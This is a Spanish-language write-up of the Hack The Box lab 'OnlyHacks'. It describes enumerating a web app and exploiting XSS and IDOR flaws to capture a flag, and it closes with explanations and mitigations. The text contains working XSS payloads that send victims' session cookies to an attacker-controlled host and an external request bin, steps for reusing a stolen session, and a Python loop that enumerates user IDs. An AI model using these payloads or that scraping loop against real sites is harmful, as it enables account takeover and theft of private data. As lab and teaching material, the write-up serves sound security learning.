





---
title: "(Writeup) OnlyHacks - Hack The Box"
date: "2026-02-23"
tags: ["HTB", "Evento", "XSS", "IDOR", "Linux"]
summary: "Writeup de resolución de la máquina `OnlyHacks` de HTB."
draft: true
---

## 1. Resumen

Para completar la máquina `OnlyHacks` de HTB, nos hemos limitado a enumerar el servicio web que expone (del que nos han proporcionado dirección IP y puerto) y explotado dos vulnerabilidades más comunes de lo que parecen. Como resumen operativo, se puede replicar siguiendo los siguientes pasos:

1. Confirmar alcance del host y exposicion del servicio en la IP/puerto proporcionados (`ping`, `nmap -p <puerto> -Pn`).
2. Verificar que el puerto sirve HTTP (`nc <ip> <puerto>` y observar respuesta HTTP).
3. Fingerprinting de la aplicacion web (`nmap -sVC`, `whatweb`) e identificar el flujo de redireccion (`/dashboard` -> `/login`) y el comportamiento basado en Ajenti.
4. Registrar un usuario valido correctamente (la foto de perfil es obligatoria aunque la UI no lo indique bien), y luego iniciar sesion.
5. Interactuar en la aplicacion hasta obtener acceso al chat con Renata (match + mensajes privados), donde arrancan ambas rutas de explotacion.

### 1.1. Ruta A: XSS
6. Validar inyeccion HTML/XSS en el chat privado enviando HTML inofensivo y comprobando que se renderiza.
7. Enviar un payload XSS que exfiltre `document.cookie` a un endpoint controlado por el atacante.
8. Usar un endpoint externo alcanzable (no solo listener local en VPN) para que la peticion de la victima llegue.
9. Recoger la cookie de sesion de la victima en los logs del endpoint e identificar la que no corresponde a tu sesion local.
10. Reutilizar esa sesion en el navegador para suplantar al usuario victima.
11. Navegar los chats de la victima y recuperar la flag en la conversacion Renata/Dimitris.

### 1.2. Ruta B: IDOR
6. En el chat, identificar el parametro numerico de recurso en la URL (`/chat/?rid=<n>`).
7. Manipular valores de `rid` (enumeracion hacia abajo/arriba) para acceder a chats que no pertenecen al usuario actual.
8. Continuar iterando hasta llegar al chat de Renata/Dimitris.
9. Extraer la flag de esa vista no autorizada.

> Condición final en ambas rutas: Debido al alcance del writeup, no es necesario acceder al servidor que hostea el servicio web, ni escalar privilegios.

## 2. Enumeración
Como información inicial, recibimos la dirección IP de la máquina y un número de puerto. Comenzamos ejecutando algunas pruebas de ping y nmap para escanear ese puerto y recopilar más información sobre el servicio que se ejecutaba en él.
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $ping 154.57.164.82
PING 154.57.164.82 (154.57.164.82) 56(84) bytes of data.
64 bytes from 154.57.164.82: icmp_seq=1 ttl=53 time=42.6 ms

┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $nmap 154.57.164.82 -p 32068 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-15 16:52 CET
Nmap scan report for 154-57-164-82.static.isp.htb.systems (154.57.164.82)
Host is up (0.054s latency).

PORT      STATE SERVICE
32068/tcp open  unknown
```
La prueba de ping nos indica que la máquina está activa y responde, probablemente se trate de un sistema basado en Unix, dado el valor TTL. El escaneo nmap muestra que el puerto 32068 está abierto, pero no identifica el servicio que se ejecuta en él. Para recopilar más información sobre el servicio, realizaremos una captura de banner utilizando `netcat`:
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $nc 154.57.164.82 32068
 
HTTP/1.1 400 Bad Request
Connection: close
Content-length: 0
```
La respuesta indica que hay un servicio HTTP ejecutándose en ese puerto, pero requiere una solicitud adecuada para responder correctamente. Podemos intentar acceder a la página web utilizando un navegador o una herramienta como «curl» para ver si podemos obtener más información sobre el servicio y su funcionalidad.

Cuando accedemos a la página web, se nos presenta una página de inicio de sesión y una página de registro. La página de registro solicita datos personales y, cuando intentamos registrarnos con un nombre de usuario o correo electrónico ya existentes, recibimos el mensaje de error `El nombre de usuario o el correo electrónico ya existen`, dentro de una :u[alerta de página]. Esto indica que existe un sistema de gestión de usuarios y que podría ser posible enumerar los usuarios existentes o encontrar vulnerabilidades en el proceso de registro:

A pesar del error durante el registro, intentamos introducir las credenciales en la página de inicio de sesión, y recibimos el mensaje de error `Usuario o contraseña incorrectos`, lo que confirma que el sistema de autenticación está activo y que el fallo del registro nos impide acceder a la página principal.


Para obtener más información sobre el sistema, lanzamos scripts de enumeración general desde `nmap` (-sVC):
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $nmap -sVC 154.57.164.82 -p 32068
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-15 17:18 CET
Nmap scan report for 154-57-164-82.static.isp.htb.systems (154.57.164.82)
Host is up (0.046s latency).

PORT      STATE SERVICE VERSION
32068/tcp open  http    Ajenti http control panel
| http-title: Login Screen
|_Requested resource was /login
```
Junto con un escaneo de `whatweb`, logramos identificar que el servicio que se ejecuta en el puerto 32068 es un panel de control "Ajenti", y enumeramos la ruta `/dashboard` que nos redirige a la página de inicio de sesión:
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $whatweb 154.57.164.82:32068
http://154.57.164.82:32068 [302 Found] Country[UNITED STATES][US], HTML5, IP[154.57.164.82], RedirectLocation[/dashboard], Title[Redirecting...], UncommonHeaders[access-control-allow-origin]
http://154.57.164.82:32068/dashboard [302 Found] Country[UNITED STATES][US], HTML5, IP[154.57.164.82], RedirectLocation[/login], Title[Redirecting...], UncommonHeaders[access-control-allow-origin]
http://154.57.164.82:32068/login [200 OK] Country[UNITED STATES][US], HTML5, IP[154.57.164.82], PasswordField[password], Script, Title[Login Screen], UncommonHeaders[access-control-allow-origin]
```
### 2.1. Panel de Control Ajenti
Según internet, Ajenti es un panel de control de código abierto diseñado para la administración de servidores, que proporciona una interfaz web fácil de usar para gestionar servidores y aplicaciones web. Incluye varios complementos para tareas como supervisar recursos, configurar servicios y gestionar archivos, lo que hace que la administración de servidores sea más sencilla y eficiente.

Si consultamos el [repositorio de GitHub de Ajenti](https://github.com/ajenti/ajenti), podemos observar que la tecnología utilizada para el desarrollo de este panel de control es Python, combinado con HTML, CSS y JavaScript para la interfaz de usuario. Esto abre un abanico de posibilidades para la explotación de vulnerabilidades de XSS, inyección de comandos o incluso la posibilidad de encontrar vulnerabilidades específicas de Ajenti, si conseguimos identificar la versión exacta del software.

Tras realizar pruebas de inyección de comandos en los campos de inicio de sesión y registro, no logramos obtener resultados positivos. Lo único que llama la atención es que el formulario devuelve error independientemente de los datos introducidos, lo que podría indicar que el sistema de validación de entradas es deficiente o que hay algún tipo de filtrado que bloquea ciertos caracteres.

### 2.2. Registro como nuevo usuario
Finalmente, tras depurar la comunicación entre el cliente y el servidor, descubrimos que ni siquiera se estaba enviando la petición de registro al servidor. Por tanto, dedujimos que el error se debía a algún campo de validación en el lado del cliente. Tras revisar el código fuente de la página, observamos que la foto de perfil es un campo obligatorio, aunque no hay indicadores visuales que lo indiquen y el código de error sólo referencia a un error genérico de usuario o correo electrónico ya existente. 

Tras insertar todos los campos correctamente, incluyendo la foto de perfil, logramos registrarnos como un nuevo usuario y acceder a la página principal de la aplicación, donde lo primero que vemos es una aplicación de citas donde el usuario puede "dar like" o descartar a otros perfiles.



### 2.3. Inyección de HTML en mensajes privados

Tras interactuar con varios usuarios (bots gestionados automáticamente), el usuario "Renata" hace "Match" con nosotros y nos envía un mensaje privado. Probamos a intercambiar mensajes con Renata y descubrimos que, además de recibir respuestas automáticas relacionadas con lo que escribimos, la aplicación nos permite introducir elementos HTML en el campo de texto, lo que podría ser un indicio de una vulnerabilidad de XSS reflejado.

Como prueba de concepto, enviamos el mensaje `<h1> I am </h1> <h2> really </h2> <h3> fine </h3>` y, efectivamente, el mensaje se muestra con el formato HTML aplicado, lo que confirma la existencia de una vulnerabilidad de XSS reflejado en el campo de mensajes privados.


### 2.4. Vulnerabilidad de rutas no intencionadas por IDOR
Las vulnerabilidades de IDOR (Insecure Direct Object References) ocurren cuando una aplicación permite a los usuarios acceder a objetos o recursos sin una validación adecuada, lo que puede llevar a la exposición de información sensible o a la manipulación de datos.

En nuestro caso, al acceder al chat con Renata, observamos que la URL contiene un identificador numérico (`/chat/?rid=6`), lo que podría indicar que la aplicación utiliza este identificador para cargar el chat correspondiente. Si no hay una validación adecuada en el servidor para verificar que el usuario tiene permiso para acceder a ese chat, podríamos intentar modificar el valor del identificador para acceder a otros chats y, potencialmente, a información sensible de otros usuarios. Como prueba de concepto, accedemos a `/chat/?rid=5` y, efectivamente, el servidor intenta mostrar un chat diferente, cayendo en un internal server error al apuntar a un rid inexistente.


## 3. Explotación
### 3.1. Vulnerabilidad de XSS Reflejado
Dado que hemos identificado una vulnerabilidad de XSS reflejado en el campo de mensajes privados, podemos aprovechar esta vulnerabilidad para ejecutar código JavaScript malicioso en el navegador de la víctima. Para ello, podemos crear un payload que envíe las cookies de la víctima a un servidor controlado por nosotros, lo que nos permitirá obtener la sesión de la víctima y acceder a su cuenta.

El payload que utilizaremos es el siguiente:
```html
<script>
  var img = new Image();
  img.src = "http://10.10.15.178:8080/cookie?cookie=" + document.cookie;
</script>
```
Este código crea una nueva imagen y establece su fuente a una URL que incluye las cookies de la víctima como parámetro. Cuando la víctima visualice el mensaje, el navegador intentará cargar la imagen, lo que enviará las cookies al servidor controlado por nosotros. Para recibir las cookies, a mi me gusta utilizar el módulo `http.server` de Python, que nos permite crear un servidor web simple en nuestro equipo:
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB]
└──╼ $python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.15.178 - - [15/Feb/2026 19:09:04] code 404, message File not found
10.10.15.178 - - [15/Feb/2026 19:09:04] "GET /cookie?cookie=session=eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6IndpdGNoZXIifX0.aZIIow.hjig6xv2UBHSqP9A2_F2lMv34gs HTTP/1.1" 404 -
```
De esta manera, obtenemos la cookie de sesión de la víctima, que podemos utilizar para acceder a su cuenta en la aplicación. Sin embargo, al probarlo en el navegador observamos que al cookie obtenida es en realidad la nuestra. Esto se debe a que el payload se ejecuta en nuestro propio navegador, y probablemente la víctima no esté en el mismo rango de red (vpn) que nosotros, por lo que necesitamos un servidor de terceros al que la víctima pueda acceder para recibir las cookies. 

Para ello simplemente podemos utilizar un servicio externo como https://requestbin.whapi.cloud/ donde podemos crear un endpoint para recibir peticiones HTTP, e incluir la cookie de la víctima en el payload:
```javascript
<script>
  var img = new Image();
  img.src = "https://requestbin.whapi.cloud/1mrbbdy1?cookie=" + document.cookie;
</script>
```
El resultado, al refrescar la página https://requestbin.whapi.cloud/1mrbbdy1?inspect son dos cookies, de las que podemos descartar la nuestra simplemente abriendo la sección "Storage>Cookies" en las herramientas de desarrollo del navegador, y quedarnos con la cookie que no aparece en nuestro almacenamiento local. Con esta cookie, podemos acceder a la cuenta de la víctima y explorar la aplicación desde su perspectiva, lo que nos permitirá identificar posibles vulnerabilidades adicionales o información sensible que pueda ser útil para la escalada de privilegios.


De esta manera, accedemos a la cuenta de usuario de Renata y observamos que en otro "Match" con "Dimitris" se encuentra la flag que estabamos buscando, lo que confirma que hemos explotado correctamente la vulnerabilidad de XSS reflejado para obtener acceso a la cuenta de la víctima y encontrar la flag.

### 3.2. Vulnerabilidad IDOR
Dado que hemos identificado una vulnerabilidad de IDOR en la aplicación, podemos aprovechar esta vulnerabilidad para acceder a recursos o información que no deberíamos tener acceso. Un usuario malintencionado en una aplicación real podría modificar el valor del identificador en la URL de forma automatizada y exfiltrar todos los chats disponibles, incluyendo información sensible y privada de otros usuarios. 

Para cumplir con nuestro objetivo en este laboratorio, simplemente modificamos el valor de rid de forma descendiente desde `rid=6` hasta `rid=1`, y observamos que en `rid=3` llegamos al mismo chat de Renata con Dimitris, volviendo a conseguir la flag que estabamos buscando. Esto confirma que hemos explotado correctamente la vulnerabilidad de IDOR para acceder a un recurso que no deberíamos tener acceso y encontrar la flag.



## 4. Post-Explotación
Normalmente, en esta sección se incluirían técnicas para escalar privilegios, mantener el acceso o exfiltrar información adicional. Sin embargo, dado que el objetivo de este laboratorio era simplemente encontrar la flag utilizando las vulnerabilidades identificadas, no se han realizado acciones adicionales de post-explotación.

Por ese mismo motivo, tampoco vamos a hackear la máquina para acceder al código fuente de la aplicación, ni lo vamos a analizar. Sin embargo, sí podemos deducir que, dado el tipo de vulnerabilidades encontradas (XSS reflejado e IDOR), es probable que el código fuente de la aplicación tenga una falta de validación adecuada de las entradas del usuario, lo que podría ser un indicio de una mala implementación de las medidas de seguridad en el desarrollo de la aplicación. 

### 4.1. Vulnerabilidades XSS
Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad web que permite a un atacante inyectar código HTML o JavaScript malicioso en un sitio web, de forma que es ejecutado por el navegador de otro usuario al visualizar el contenido. Esto sucede cuando la aplicación muestra datos controlados por el usuario sin la validación y el saneamiento adecuados.

OWASP lo clasifica dentro de los riesgos más comunes de aplicaciones web porque suele derivar de una gestión insegura de las entradas de usuario y puede tener consecuencias graves en función de qué datos se manejen en la aplicación.

#### 4.1.1. ¿Por qué es peligroso XSS?

Si un atacante logra que su código malicioso se ejecute en el navegador de un usuario legítimo, puede:
- Robar cookies de sesión o tokens de autenticación, permitiendo tomar el **control de la cuenta de la víctima**.
- Manipular la interfaz o los datos mostrados para **engañar al usuario** (phishing, redireccionamientos, etc.).
- Realizar **acciones en nombre del usuario**, como enviar formularios o interactuar con funcionalidades internas.

> Este riesgo se mantiene incluso aunque la vulnerabilidad solo se manifieste en áreas aparentemente “inofensivas” de la app.

#### 4.1.2. Tipos principales de XSS

Aunque hay varias formas de clasificar XSS, las más habituales son:

- **Reflejado** (no-persistente): el código malicioso se incluye en una solicitud (p. ej., en una URL) y se refleja inmediatamente en la respuesta.
- **Almacenado** (persistente): el código malicioso se guarda en el servidor (p. ej., en un campo de comentario) y se sirve a quien visite el recurso afectado.

Ambos pueden permitir la ejecución de JavaScript en el navegador de la víctima si no hay mitigaciones adecuadas.

#### 4.1.3. Ejemplo práctico
Supongamos que una página muestra un texto enviado por un usuario sin sanearlo:
```html
<p>Comentario: $USER_TEXT</p>
```
Si el atacante puede incluir elementos HTML, CSS y/o JavaScript dentro del *input* que se le proporciona, podría introducir:
```html
<script>alert("XSS");</script>
```
Ese "texto" se insertará en el HTML generado las próximas veces que alguien solicite ese recurso web, ejecutándose y mostrando una alerta con el texto "XSS". Esto se vuelve peligroso cuando el atacante, en lugar de mostrar un texto inofensivo, puede interactuar con el navegador de una víctima.

#### 4.1.4. Caso concreto de OnlyHacks
En la máquina OnlyHacks detectamos que el campo de mensajes privados acepta e interpreta HTML/JavaScript tal cual, provocando que el texto enviado por un usuario se muestre interpretado por el navegador. La prueba de concepto que hicimos incluía etiquetas `<h1>` y similares, que se renderizaban en el mensaje enviado.

Esto es una manifestación de XSS porque los datos de usuario no están siendo saneados antes de renderizarse en la página de chat. Concretamente, si un atacante envía HTML/JS en un mensaje:
```html
<h1>Hola</h1><script>fetch("https://miserver.com?c=" + document.cookie)</script>
```
Este mensaje podría:
- Mostrar contenido con formato (etiquetas `<h1>`).
- Ejecutar JavaScript, si no hay escape ni sanitización.

En ese caso, el navegador interpretará el `<script>` y permite, por ejemplo, recuperar y enviar cookies de sesión a un servidor controlado por el atacante (ya demostrado). Este tipo de payload es un ejemplo claro de una vulnerabilidad XSS cuando la entrada del usuario no se trata con seguridad, y posibilita ataques tan creativos como enlaces a imágenes que, además de obtener el recurso de un servidor controlado, filtren la cookie del usuario:
```html
<p> Mira esta imagen:  </p>
```
Imperceptible para el usuario, pero con el mismo peligro.

#### 4.1.5. Mitigación
Para mitigar vulnerabilidades de XSS, como la mayoría de vulnerabilidades de inyección, es fundamental implementar una validación y sanitización adecuada de las entradas del usuario. Esto incluye:
- Escapar caracteres especiales en HTML, JavaScript y otros contextos.
- Sanitizar entradas para eliminar o neutralizar código malicioso, antes de almacenarlo.
- Utilizar políticas de seguridad de contenido (CSP) para restringir la ejecución de scripts no autorizados.
- Usar frameworks que implementen medidas de seguridad contra XSS de forma predeterminada.

Si te interesa descubrir más detalles sobre la prevención de XSS, puedes consultar la sección de OWASP sobre [Cross-Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Si quieres profundizar en la explotación de XSS, puedes revisar la sección de OWASP, aunque a mí personalmente me gusta más como lo explican en [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html).

### 4.2. Vulnerabilidades IDOR
Un **IDOR (Insecure Direct Object Reference)** es una vulnerabilidad de control de acceso que ocurre cuando una aplicación web utiliza **valores proporcionados por el usuario** para acceder directamente a un recurso interno (como un registro en base de datos, un chat, un archivo o una ruta) **sin verificar si ese usuario está autorizado** para acceder a ese recurso. En otras palabras, confía en un identificador fácilmente manipulable, sin aplicar una confirmación de permisos adecuada.

OWASP ha incluido tradicionalmente IDOR como parte del riesgo más amplio de **Broken Access Control** (fallos en el control de acceso) en su lista de **riesgos de seguridad más críticos** para aplicaciones web.

#### 4.2.1. Explotación y ejemplo práctico
Cuando una aplicación responde a una solicitud que utiliza un identificador controlado por el usuario, y no comprueba si el usuario realmente debería ver o modificar ese objeto, se puede aprovechar la vulnerabilidad para acceder a datos o funcionalidades que no deberían estar disponibles. Por ejemplo, si una aplicación tiene una URL como:
```
https://example.com/user/profile?user_id=123
```
Y el usuario autenticado tiene acceso a `user_id=123`, pero no hay validación para asegurarse de que el usuario solo pueda acceder a su propio perfil, un atacante podría cambiar el valor a `user_id=124` para intentar acceder al perfil de otro usuario. Si la aplicación lo permite, el atacante podría en el mejor caso ver y en el peor caso modificar información que no le pertenece.

Este ataque es altamente escalable y se podría automatizar con un script tan sencillo como el siguiente:
```python
import requests
for user_id in range(1, 100):
    response = requests.get(f"https://example.com/user/profile?user_id={user_id}", cookies={"session": "victim_session_cookie"})
    if response.status_code == 200:
        print(f"Accessed profile of user_id={user_id}")
        # TBD: Extract and save data from the response
```
Capaz de filtrar la información de cientos o miles de usuarios, dependiendo del número de identificadores disponibles y la secuencialidad de estos.

#### 4.2.2. ¿Por qué es peligroso IDOR?
Si una aplicación es vulnerable a IDOR, un atacante podría:
- Leer datos de otros usuarios sin permisos, dando lugar a una brecha de datos.
- Acceder o modificar recursos que no le pertenecen.
- Escalar privilegios horizontalmente, accediendo a objetos de otros usuarios del mismo nivel, y verticalmente, accediendo a objetos de usuarios con más privilegios.

Si no se implementan los controles adecuados, puede incluso conducir a exposición masiva de datos sensibles, como la [exposición de datos de Hacienda](https://digitalperito.es/blog/hacienda-ciberataque-idor-47-millones-ciudadanos-2026/) que se rumorizó hace unas semanas.

Lo que hace especialmente peligrosa esta vulnerabilidad es que es **muy fácil de explotar** y **difícil de detectar**, ya que los atacantes utilizan **peticiones legítimas** con identificadores válidos. Esto lo convierte en un ataque relativamente **silencioso**, ya que no necesariamente genera errores y, en función de la magnitud o la frecuencia de las peticiones, puede pasar desapercibido en los logs.

#### 4.2.3. Caso concreto de OnlyHacks
En la máquina OnlyHacks, identificamos que el chat con Renata se accede a través de una URL que incluye un parámetro `rid` (recurso ID):
```html
https://onlyhacks.htb/chat/?rid=6
```
Esto que sugiere que la aplicación utiliza este identificador para cargar el chat correspondiente. Si modificamos ese valor a otro (por ejemplo, `rid=3`), la aplicación **intenta mostrar un chat diferente**, pudiendo revelar información de otros usuarios. Esto es una manifestación de una **vulnerabilidad IDOR** porque la aplicación confía en que el número de identificador que proporciona el usuario corresponde a un recurso legítimo y autorizado para ese usuario.

Aprovechando esta vulnerabilidad, nosotros hemos iterado desde `rid=1` en orden ascendente, hasta alcanzar el chat de Renata con Dimitris en `rid=3`, donde se encontraba la flag que estabamos buscando. 

#### 4.2.4. Mitigación
Para mitigar vulnerabilidades de IDOR, es fundamental implementar **controles de acceso adecuados** en el servidor, que **verifiquen** que el usuario autenticado tiene **permiso para acceder al recurso** solicitado. Esta es la medida mínima e imprescindible, sin embargo, se puede ampliar con otras medidas adicionales como:
- Utilizar identificadores no predecibles (UUIDs, hashes) en lugar de números secuenciales.
- Implementar un sistema de autorización basado en roles o permisos para controlar el acceso a recursos.
- Realizar una validación exhaustiva de las entradas del usuario para evitar manipulaciones maliciosas.
